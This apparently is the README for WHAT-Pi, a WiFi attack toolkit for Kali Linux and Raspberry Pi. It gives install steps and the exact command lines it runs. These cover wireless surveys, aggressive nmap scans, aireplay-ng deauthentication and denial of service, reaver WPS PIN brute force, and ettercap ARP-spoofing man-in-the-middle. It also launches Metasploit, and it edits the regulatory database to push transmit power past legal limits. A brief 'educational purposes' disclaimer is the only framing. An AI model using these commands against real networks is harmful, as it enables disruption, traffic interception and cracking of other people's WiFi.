 Lighter version of WHAT-PRO, built for the Raspberry Pi
Release notes for WiFi Hacking Attack Tool (WHAT) v1.0

This is only to be used for educational purposes only. It is illegal to use this program against wireless devices that you do not own.
Not all of these capabilities are available for WHAT

Pre-requisites:

a. Kali Linux 2 (32 or 64 bit iso or RPi ARM)
b. If using the WHAT-RPi version, please ensure the following repos are in the /etc/apt/sources.list file before installing:

deb http://http.kali.org/kali sana main non-free contrib

deb-src http://http.kali.org/kali sana main non-free contrib

deb http://security.kali.org/kali-security/ sana/updates main contrib non-free

deb-src http://security.kali.org/kali-security/ sana/updates main contrib non-free

This tool has only been run with Kali Linux 2. It is unknown what success you will have running on Ubuntu.

Let me know of any suggested improvements to this tool.

WHAT is designed to be an all in one and simplify WiFi exploitaton covering wardriving, WPA, WPS, MiTM, network scanning, exploitation and geolocation

There are three versions of WHAT (PRO, WHAT, Pi). All have different capabilities for different outputs. Download whichever version suits your needs best.

To start up:

1. you must install WHAT into the /root/ directory of Kali 2. Running the installer will download all the necessary packages you need to use WHAT. To do so: 

cd root

git clone https://github.com/smoz1986/WHAT-Pi.git

cd WHAT-Pi

chmod +x *.sh

./WHAT-installer.sh

2. Once downloaded go to the 'WHAT-Pi' icon and click to start WHAT

3. On 'PRO' version you will have five options (some of these are deprecated for WHAT and WHAT-Pi versions)

4. As you are using WHAT quite a few blank terminals will pop up. Just minimise these but dont close them as that will close the parent menu/program

ADMIN

1. On initial activation of WHAT click on Admin
2. Then click on 'Wipe & Create Files' and 'Clear Archive' to create the file structure within the root directory. As you use the various programs within WHAT they will write to these files. 
3. Once you have run some programs you may want to clear out these logs. If you do 'Wipe & Create Files' and 'Clear Archive' that will remove everything and install a new file structure. Move files to DB will put them in the /root/dropbox/ folder which will make it easier for someone to locate and extract if you are using FTP or SSH with a remote client
4. Archive files will archive all files you have created to a certain point. But as said if you run 'Clear Archive' that will clear out the archive folder

SURVEY (works with WiFi card as wlan0 only. you will be given prompts when each tab is clicked to suit your needs)

1. 'Start WiFi Survey' will automatically put the card into monitor and start airodump-ng on survey mode. The start up string is as follows:

airodump-ng wlan0mon --gpsd -w /root/airodumplog/$filevar -c $chanvar --wps --write-interval 1 --manufacturer --output-format csv,kismet,netxml,gps

2. 'WiFi Survey (PCAP)' again this will put the card into monitor mode, however, will be conducting PCAPs rather than just survey, which will be required for any deauths...more on that later. The string run for this is as follows:

airodump-ng wlan0mon --beacons --gpsd -w /root/airodumplog/pcap/$filevar --bssid $bssidvar -c $chanvar --output-format pcap,csv,kismet,netxml --write-interval 1 --wps --manufacturer

3. 'WPS survey' will just run a basic WPS survey of nearby WiFi Access points. Command line is as follows:

wash -i wlan0mon -o /root/wpslog/$filevar.log --ignore-fcs

4. NMAP will run a scan with the following parameters as follows:

nmap -sS -sV -sC -A -O -T$speedvar -p $portvar $ipranvar -v -o /root/nmaplog/$filevar.xml

EXPLOIT

1. 'Deauth AP-Client' will conduct a deauth between an AP and client. Wireshark will fire up too so you can confirm capture of the EAPOL packets. Command is as follows:

aireplay-ng -0 $deauthvar -a $bssidvar -c $clientvar wlan0mon

2. 'Deauth AP / DOS' will conduct a deauth of a target AP only. Wireshark again will be activated. Command line used is as follows:

aireplay-ng -0 $deauthvar -a $bssidvar wlan0mon

3. 'WPS' will run a PIN brute force and Pixie attack on a WPS enabled AP. Command line used is as follows:

reaver -i wlan0mon -b $bssidvar -vv -S -P -c $chanvar -d $delvar -o /root/wpslog/wpscrack/$filevar.log

4. 'MITM-Ettercap' will intiate a MITM by Ettercap. The command line used is as follows:

ettercap -T -i $intervar -M arp:remote -d -w /root/etterlog/$filevar.pcap /$routervar//$targetvar/

6. 'Metasploit' will fire up good old msfconsole for you to employ further at your hearts' content

COMMUNICATIONS

1. 'WiFi card power boost' will boost your WiFi card power. The default with WHAT is 2W. If you want to change the settings go to /root/WHAT-PRO/wifi-boost/wireless-regdb-2014.06.13/db.txt and amend all the values in brackets in the 'country 00:' and 'country BO:' sections to your desired Tx power. Make sure that your wifi card can accept your power setting, I accept no responsibility if you change the settings to something that will break your card. Once click, and your WiFi card's Tx power will be boosted

2. 'GPS' will start up your attached GPS. This only works with USB attached GPS.

3. 'OpenVPN' will start up OpenVPN if you have the credentials to connect to an active OpenVPN server

End, that's all.

